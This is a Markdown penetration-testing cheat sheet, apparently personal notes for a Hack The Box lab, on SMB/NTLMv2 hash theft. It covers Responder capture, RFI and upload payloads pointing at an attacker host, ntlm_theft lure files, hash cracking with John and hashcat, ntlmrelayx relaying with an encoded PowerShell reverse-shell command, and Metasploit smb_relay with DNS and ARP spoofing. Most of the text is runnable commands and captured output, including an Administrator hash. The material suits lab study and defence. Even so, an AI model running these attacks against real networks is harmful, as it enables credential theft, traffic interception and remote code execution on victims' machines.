

 
We can set a SMB server on our machine and use the Remote File Inclusion to access a random file of our server so we can get the NTLMv2 hash from the target while authenticating to our SMB server. 

The server authenticates the client with a Challenge-Response protocol:


- The Hello contains the UID
- The Challenge message is a random string.
- The Response message contains the `resp1 = hash(challenge, password)`
- The server authenticates the user by computing `resp2 = hash(challenge, password)`
- If `resp1 == resp2` then authentication is successful

The idea of the attack is to crack the hash and retrieve the SMB credentials.

> [!Requirements]
> 1. SMB signing disabled on the target.
> 2. A way of performing an SMB authentication request to our attack host.

---

# Manual Exploitation

- Check that the responder configuration file has the SMB server enabled
```sh
cat /usr/share/responder/Responder.conf 
```

- Check the interfaces:
```bash
$ ifconfig

$ ip a
```

- Start the SMB server (responder):
```sh
sudo responder -I tun0
```

- Access the SMB server from the target machine:
```bash
+ RCE +
PS C:\> ls \\LOCAL_IP\SHARE
PS C:\> dir \\LOCAL_IP\SHARE

+ DIRECTORY TRAVERSAL +
http://TARGET/index.php?page=//<LOCAL_IP>/somefile

+ FILE UPLOAD VIA SMB +
Upload a file to \\LOCAL_IP\share\nonexistent.txt (change the name of the file)
Or escape the backslashes: \\\\LOCAL_IP\\share\\nonexistent.txt

+ WP PLUGIN +
Backup Migration: specify the path to a remote server:
//KALI_HOST/test
```

If we target is a bot that automatically clicks on the file (for example on a writable SMB share): 

Download: https://github.com/Greenwolf/ntlm_theft

Generate the payload:
```bash
python3 ntlm_theft.py -g lnk -s LOCAL_IP -f NAME
```

We can also try uploading all payloads:
```bash
python3 ntlm_theft.py -g all -s LOCAL_IP -f NAME
```

Upload the payload to the share:
```bash
$ cd NAME
$ smbclient //TARGET_IP/WRITABLE_SHARE -U USER

*Enter password*

smb> mput *
*enter "y" to all payloads*
```

> [!Important]
> The objective here is to force an authentication on a target machine that is running SMB to our attack machine to retrieve the user hash.

> [!NOTE]
> Here we are accessing the SMB server through a Remote File Inclusion (RFI) vulnerability | file upload vulnerability | Low privileged RCE vulnerability | Wordpress Plugin

- In responder we should get a hash like the following one:
```sh
[SMB] NTLMv2-SSP Client   : 10.129.95.234
[SMB] NTLMv2-SSP Username : RESPONDER\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::RESPONDER:635ea63d7c77c17a:C3E9B84A0284FC17EE87A8EF5768CE4A:01010000000000008096A0CDAADADA01EA90DF43B6CF2852000000000200080032004D0043005A0001001E00570049004E002D005A005A005A0035004D005A003800420033005600390004003400570049004E002D005A005A005A0035004D005A00380042003300560039002E0032004D0043005A002E004C004F00430041004C000300140032004D0043005A002E004C004F00430041004C000500140032004D0043005A002E004C004F00430041004C00070008008096A0CDAADADA0106000400020000000800300030000000000000000100000000200000CD5099F33776B57CF6FF74AE46C85DBE6AB5E9D3C7F78E6E7D2B6A10532100610A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E00340034000000000000000000 
```

- Crack the hash using John the Ripper:
```sh
$ echo "Administrator::RESPONDER:635ea63d7c77c17a:C3E9B84A0284FC17EE87A8EF5768CE4A:01010000000000008096A0CDAADADA01EA90DF43B6CF2852000000000200080032004D0043005A0001001E00570049004E002D005A005A005A0035004D005A003800420033005600390004003400570049004E002D005A005A005A0035004D005A00380042003300560039002E0032004D0043005A002E004C004F00430041004C000300140032004D0043005A002E004C004F00430041004C000500140032004D0043005A002E004C004F00430041004C00070008008096A0CDAADADA0106000400020000000800300030000000000000000100000000200000CD5099F33776B57CF6FF74AE46C85DBE6AB5E9D3C7F78E6E7D2B6A10532100610A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E00340034000000000000000000" > hash

$ john --format=netntlmv2 hash --wordlist=/usr/share/wordlists/rockyou.txt
```

- Crack the hash using hashcat:
```bash
$ hashcat --help | grep -i "ntlm" # identify the hash mode (check for NetNTLMv2)

$ hashcat -m 5600 user.hash /usr/share/wordlists/rockyou.txt --force
```

- Connect to the target machine:
```sh
$ evil-winrm -i TARGET_IP -u administrator -p PASSWORD
or
$ xfreerdp /u:USER /p:PASSWORD /v:TARGET_IP
```

> [!Note]
> If we cant crack the password, we can relay the Net-NTLMv2 hash.

# Relay Attack

Instead of just printing the hash and attempt to crack it, we can relay it to authenticate to a different system.

> [!Requirements]
> 1. The user of the hash must be a local user on the second target so the authentication is successfull.
> 2. SMB signing must be disabled on the hosts.

> [!Important]
> If the user we are going to relay the hash is not the local Administrator but it belongs to the Local Administrators Group, we wont be able to have administrative privileges using psexec or wmiexec because of UAC.
> If its the Administrator, we will remain with admin privileges. 

- Start the relay server on our attack machine:
```bash
$ impacket-ntlmrelayx --no-http-server -smb2support -t TARGET_2_IP -c "powershell -enc BASE64_ENC_COMMAND"

Parameters:
--no-http-server: disable the HTTP server
-smb2support: enable SMBv2
-t <TARGET>: target IP we want to authenticate to
-c <COMMAND>: encoded command. It usually contains a reverse shell one liner encoded in base64.
```

- Establish a listener:
```bash
$ nc -nvlp PORT
```

- Exploit the relay attack to authenticate to our SMB server:
```bash
+ RCE +
PS C:\> ls \\LOCAL_IP\SHARE
PS C:\> dir \\LOCAL_IP\SHARE

+ DIRECTORY TRAVERSAL +
http://TARGET_1_IP/index.php?page=//<LOCAL_IP>/somefile

+ FILE UPLOAD VIA SMB +
Upload a file to \\LOCAL_IP\share\nonexistent.txt (change the name of the file)
Or escape the backslashes: \\\\LOCAL_IP\\share\\nonexistent.txt

+ WP PLUGIN +
Backup Migration: specify the path to a remote server:
//KALI_HOST/test
```

> [!Important]
> The objective here is to force an SMB authentication on a target machine that is running SMB to a different target machine that we asume it has the same user by pivoting the request through our attack machine to obtain RCE on the second target machine.

---
# Automated exploitation (using Metasploit)

- Setup the SMB server:
```bash
msf> use exploit/windows/smb/smb_relay
msf> set SRVHOST LOCAL_IP
msf> set LHOST LOCAL_IP
msf> set SMBHOST TARGET_SMB_SERVER (spoofed IP)
msf> run
```

- Configure DNS spoofing to DNS spoof and redirect the victim to our MSF every time there is a SMB connection to any host on the domain:
```bash
$ echo "LOCAL_IP *.DOMAIN" > dns (echo "LOCAL_IP *.sportsfoo.com")
$ dnsspoof -i INTERFACE -f dns (dnsspoof -i eth1 -f dns)
```

- MITM attack: perform ARP spoofing to poison the traffic between the victim and the default gateway:
```bash
1. Enable IP forwarding:
$ echo 1 > /proc/sys/net/ipv4/ip_forward
2. Start the ARP spoof attack:
$ arpspoof -i INTERFACE -t VICTIM_IP DEFAULT_GATEWAY_IP 
$ arpspoof -i INTERFACE -t DEFAULT_GATEWAY_IP VICTIM_IP
```

Now every time the victim host starts an SMB connection, DNS spoof will forge the DNS replies that the DNS address they are looking for is the attack host, 

# HTB Machines
- Responder (Starting Point Tier 1)